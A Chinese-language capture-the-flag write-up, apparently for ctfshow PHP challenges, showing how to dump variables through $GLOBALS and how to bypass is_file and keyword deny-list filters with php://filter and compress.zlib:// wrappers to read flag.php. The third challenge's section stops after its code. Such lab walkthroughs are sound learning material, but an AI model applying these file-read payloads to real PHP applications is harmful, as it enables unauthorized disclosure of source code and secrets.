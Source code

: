 > 利用全局变量GLOBALS
> $GLOBALS — 引用全局作用域中可用的全部变量 
> 一个包含了全部变量的全局组合数组。变量的名字就是数组的键。

把$GLOBALS赋值给v2，然后v2再赋值给v1,即可将全部变量输出

```
?v1=ctfshow&v2=GLOBALS
```

## 112-is_file

```php
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

> is_file判断所给文件名是否为一个正常的文件
> filename为文件路径
>
> ```php
> is_file ( string $filename ) : bool
> ```

要不被is_file检测出来，然后highlight_file可以识别
那么就可用伪协议：

```
php://filter/resource=flag.php

php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php

php://filter/read=convert.quoted-printable-encode/resource=flag.php

compress.zlib://flag.php
```

## 113-is_file-目录溢出

```php
function filter($file){
    if(preg_match('/filter|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```
